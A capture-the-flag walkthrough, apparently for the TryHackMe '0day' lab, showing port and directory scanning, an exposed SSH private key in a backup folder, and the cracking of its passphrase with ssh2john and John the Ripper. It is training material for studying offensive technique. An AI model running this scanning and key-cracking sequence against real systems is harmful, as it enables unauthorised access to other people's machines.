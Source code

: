 # Introduction

We first add a domain in /etc/hosts so we don't need to remember the IP
```bash
10.10.xx.xx 0day.thm
```

# Enumeration

We do a nmap with some options :\
\
-T4 is for have more threads to accelerate the scan\
-p- is to scan all the ports\
-sV is to scan the version\
\
we run the scan as sudo so it's doing a SYN scan and not a full TCP connection so it's faster

```bash
sudo nmap -T4 -p- -sV 0day.thm
```

We got this result
```bash
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 6.6.1p1 Ubuntu 2ubuntu2.13 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.7 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

# HTTP (Port 80)
We enumarate the website with feroxbuster and found some interestings folders

```bash
feroxbuster -u http://0day.thm/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
```

```bash
301      GET        9l       28w      305c http://0day.thm/cgi-bin => http://0day.thm/cgi-bin/
301      GET        9l       28w      301c http://0day.thm/img => http://0day.thm/img/
200      GET       78l      138w     1114c http://0day.thm/css/main.css
200      GET        7l       11w      156c http://0day.thm/js/main.js
301      GET        9l       28w      305c http://0day.thm/uploads => http://0day.thm/uploads/
200      GET      423l     2430w   194997c http://0day.thm/img/avatar.png
200      GET       42l      136w     3025c http://0day.thm/
301      GET        9l       28w      303c http://0day.thm/admin => http://0day.thm/admin/
301      GET        9l       28w      301c http://0day.thm/css => http://0day.thm/css/
301      GET        9l       28w      300c http://0day.thm/js => http://0day.thm/js/
301      GET        9l       28w      304c http://0day.thm/backup => http://0day.thm/backup/
301      GET        9l       28w      304c http://0day.thm/secret => http://0day.thm/secret/
```

At url /backup/ we found a private SSH key
<img width="570" alt="image" src="https://github.com/MaTe0r/tryhackme.com/assets/94843357/f73e3c99-906a-4a4a-8686-8b5fdb7be74e">

```
$ ssh2john id_rsa >> id_rsa.john
```

```bash
$ john id_rsa.john --wordlist=/usr/share/wordlists/rockyou.txt 
Using default input encoding: UTF-8
Loaded 1 password hash (SSH, SSH private key [RSA/DSA/EC/OPENSSH 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
letmein          (id_rsa)     
1g 0:00:00:00 DONE (2023-08-18 16:01) 100.0g/s 51200p/s 51200c/s 51200C/s teiubesc..letmein
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

